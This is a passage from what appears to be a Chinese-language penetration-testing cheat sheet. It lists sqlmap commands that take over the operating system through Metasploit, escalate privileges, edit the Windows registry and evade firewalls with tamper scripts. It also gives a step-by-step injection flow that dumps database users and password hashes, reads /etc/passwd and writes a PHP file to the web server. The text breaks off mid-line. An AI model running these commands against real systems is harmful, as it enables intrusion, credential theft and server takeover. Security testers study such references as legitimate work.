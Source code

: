 ```bash
10./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 --priv-esc -v 1 
11./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-pwn --msf-path=/opt/framework/msf3 -v 1 
12./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-bof --msf-path=/opt/framework/msf3 -v 1 
13./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 --reg-add --reg-key="HKEY_LOCAL_NACHINE\SOFEWARE\sqlmap" --reg-value=Test --reg-type=REG_SZ --reg-data=1 
14./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --eta 
15./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "')" --suffix "AND ('abc'='abc"
16./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"
17./sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"
18./sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3 
19./sqlmap.py -u "http://192.168.136.131/sqlmap/mssql/get_int.php?id=1" --sql-query "SELECT 'foo'" -v 1 
20./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --common-tables -D testdb --banner 
21./sqlmap.py -u "http://192.168.136.129/mysql/get_int_4.php?id=1" --cookie="PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low" --string='xx' --dbs --level=3 -p "uid"
```

简单的注入流程 :
```bash
1.读取数据库版本，当前用户，当前数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db -v 1 
2.判断当前数据库用户权限 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --privileges -U 用户名 -v 1 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --is-dba -U 用户名 -v 1 
3.读取所有数据库用户或指定数据库用户的密码 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --users --passwords -v 2 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --passwords -U root -v 2 
4.获取所有数据库 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dbs -v 2 
5.获取指定数据库中的所有表 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --tables -D mysql -v 2 
6.获取指定数据库名中指定表的字段 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --columns -D mysql -T users -v 2 
7.获取指定数据库名中指定表中指定字段的数据 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --dump -D mysql -T users -C "username,password" -s "sqlnmapdb.log" -v 2 
8.file-read读取web文件 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-read "/etc/passwd" -v 2 
9.file-write写入文件到web 
sqlmap -u http://www.xxxxx.com/test.php?p=2 --file-write /localhost/mm.php --file使用sqlmap绕过防火墙进行注入测试：
```

### NoSQLAttack

#### 介绍
